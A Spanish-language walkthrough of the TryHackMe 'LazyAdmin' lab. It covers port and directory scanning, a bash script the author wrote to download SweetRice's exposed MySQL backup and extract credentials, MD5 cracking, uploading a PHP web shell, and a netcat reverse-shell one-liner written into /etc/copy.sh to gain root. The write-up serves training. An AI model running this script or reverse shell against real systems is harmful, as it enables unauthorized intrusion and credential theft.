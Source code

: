 ```yaml
---
title : Máquina|<font color="#5d9b9b">Lazy Admin</font>
published : True
---
```

<p></p>
<p>Nombre : LazyAdmin</p>
<p>Url : <a href="https://tryhackme.com/room/lazyadmin"> LazyAdmin</a></p>
<p></p>

<h2><font color="white"><center># lazyAdmin</center></font></h2>
* <p>Empezamos con el reconocimiento de la maquina</p>
> ping -c 1 IP
<img src="/imgs/lazyAdmin/lazyAdmin0.jpg"/>
<br>
<br>
`Vemos que es una maquina Linux por el ttl que es de 63, por proximidad hacia 64 podemos decir que la maquina es Linux.`
* <p>Empezamos con el reconocimiento de puertos.</p>
> nmap --min-rate 5000 -sV -sS -Pn --open 10.10.56.176 -o ports
<img src="/imgs/lazyAdmin/lazyAdmin1.jpg"/>
<br>
<br>
`Podemos observar que tiene el puerto ssh y http abierto.`
* <p>Ahora enumeraremos los directorios activos de la pagina web</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.56.176/FUZZ
<img src="/imgs/lazyAdmin/lazyAdmin2.jpg"/>
<br>
<br>
`Vemos que hay un directorio llamado content.`
* <p>Miremos que trae ese directorio.</p>
<img src="/imgs/lazyAdmin/lazyAdmin3.jpg"/>
<br><br>
`Vemos que en su sistema usa SweetRice el cual miraremos si tiene vulnerabilidades.`
* <p>Miremos si tiene vulnerabilidades el sistema que tiene en uso.</p>
> searchsploit sweetrice
<img src="/imgs/lazyAdmin/lazyAdmin4.jpg"/>
* <p>Mirando bien tenemos un exploit llamado Backup Disclosure que recopila información, de una base de datos mySql.</p>
<img src="/imgs/lazyAdmin/lazyAdmin5.jpg"/>
<br><br>
`Lo que podemos observe es que hay una base de datos filtrada en una url en este caso http://localhost/inc/mysql_backup`
* Veamos si existe el archivo filtrado.\
<br>
<img src="/imgs/lazyAdmin/lazyAdmin6.jpg"/>
<br><br>
`Ahora si vemos el archivo descargado podemos ver que hay un usuario llamado "manager" y la contraseña encriptada en MD5`
<p>Por cierto pensé en la gente y desarrolle este <font color="red">exploit</font> el cual te automatiza todo.</p>

```bash
#!/bin/bash

ctrl_c(){
	echo -e "[\e[31;1m!\e[0m] Saliendo\n"
	exit 2
}
trap ctrl_c INT

function init(){
	echo -e "\e[31;1m[!] Cheking if exist url : $1\e[0m"

	if test """$( curl -s -X GET "http://$1/content/inc/mysql_backup/" -i | head -n 1 | cut -f2 -d' ' )""" -eq 200;then
		echo -e "\e[37;1m [+] Succes url database...\e[0m"
		echo -e "\e[37;1m [!] Cheking database exist into url\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
		echo -e "\e[37;1m [+] Name succes... \e[0m"
		echo -e "\e[37;1m [!] Extracting file db\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/$(cat .nameFile.tmp)" > database.sql
		echo -e "\e[37;1m [+] Ok data base extract in file -->> database.sql\e[0m"
		echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
		echo -e "\n\e[37;1m[ Credentials ]"
		echo -e "\e[37;1m------------------------"
		cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*" > .credentials.tmp
		echo -e "Username : $(cat .credentials.tmp | head -n 1)"
		echo -e """password : $(cat .credentials.tmp | head -n 2 | awk "NR==2")"""
		echo -e "-----------------------------"
		echo -e "\n[ all information ]"
		echo -e "--------------------------"
		cat .credentials.tmp
		echo -e "------------------------\n"
		echo -e "if there a error check file database.sql for verify."
		echo '' 
		rm -rf .nameFile.tmp
		exit 0
		
		
	else
		if test """$(curl -s -X GET "http://$1/inc/mysql_backup/" -e | head -n 1 | cut -f2 -d' ')""" -eq 200; then
			echo -e "\e[37;1m Succes url database \e[0m"
			echo -e "\e[37;1m Cheking database into url\e[0m"
			curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
			echo -e "\e[37;1m [+] Name succes... \e[0m"
  	 	        echo -e "\e[37;1m [!] Extracting file db\e[0m"
			curl -s -X GET "http://$1/inc/mysql_backup/$(cat .nameFile.tmp)" > database2.sql
			echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
			echo -e "[ Credentials ]"
			echo -e "\e[37;1m------------------------"
	               	cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*"
        	        echo -e "------------------------"
	                echo -e "if there a error check file database.sql for verify."
			rm -rf .nameFile.tmp
			exit 0
		else
			echo -e "\e[37;1m Error exploit\e[0m"
		fi
	fi
	
	
}

if test -z $1;then
	echo -e "\e[31;1m Not url declare\e[0m"
	exit 5
fi
init $1


```
* <p>Que por cierto si lo ejecutamos...</p>
<img src="/imgs/lazyAdmin/lazyAdmin7.jpg"/>
<br><br>
<p>Vemos el usuario y la contraseña....jejej.</p>
* <p>Ahora desencriptar el hash anteriormente.</p>
> john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
<img src="/imgs/lazyAdmin/lazyAdmin8.jpg"/>
<br><br>
<p>contraseña mas débil jejeje.</p>
<p>Ahora ya podemos ingresar al login de la pagina web.</p>
<img src="/imgs/lazyAdmin/lazyAdmin9.jpg"/>
<p>Ahora nos vamos al apartado de anuncios.</p>
<img src="/imgs/lazyAdmin/lazyAdmin10.jpg"/>
<p>Ahora solo colocamos un codigo php que me de una web Shell. </p>
<img src="/imgs/lazyAdmin/lazyAdmin11.jpg"/>
* <p>Ahora vamos a la url, donde se cargo el archivo php en este caso es en  <font color="yellow">http://localhost/content/inc/ads/( nombre de archivo).php</font></p>
<img src="/imgs/lazyAdmin/lazyAdmin12.jpg"/>
* <p>Nos ponemos en escucha en nuestra terminal y recargamos la pagina web anterior, de esta forma ganaremos una web Shell</p>
<img src="/imgs/lazyAdmin/lazyAdmin13.jpg"/>
* <p>Enumeramos el sistema para ver como podemos escalar privilegios.</p>
<img src="/imgs/lazyAdmin/lazyAdmin14.jpg"/>
<br><br>
`En la imagen podemos ver que tenemos permisos para ejecutar perl, un archivo llamado /home/itguy/backuo.pl que a su vez ejecuta otro archivo llamado /etc/copy.sh el cual vemos que tenemos permisos de escritura`
* Como el archivo /etc/copy.sh, en su contexto vemos que el archivo tiene una estructura para lanzar una seudo consola por una ip y un puerto, lo que haré sera remplazar la ip y el puerto y ejecutar el archivo.
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TuIp 5555 >/tmp/f"  > /etc/copy.sh
<img src="/imgs/lazyAdmin/lazyAdmin15.jpg"/>
<p>OK maquina vulnerada.</p>


